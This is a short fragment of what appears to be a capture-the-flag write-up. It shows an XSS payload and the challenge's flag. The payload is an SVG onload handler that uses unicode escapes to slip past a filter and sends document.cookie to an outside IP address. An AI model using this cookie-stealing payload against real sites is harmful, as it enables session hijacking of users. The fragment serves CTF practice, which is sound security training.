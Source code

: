 |

## Payload

```html
<svg onload=\u006Cocation.\u0068ref="http://20.41.120.97:10010/"+document.cookie>
```

|

|

### FLAG

---

```sh
K0{replace_is_for_loop}
```

|

---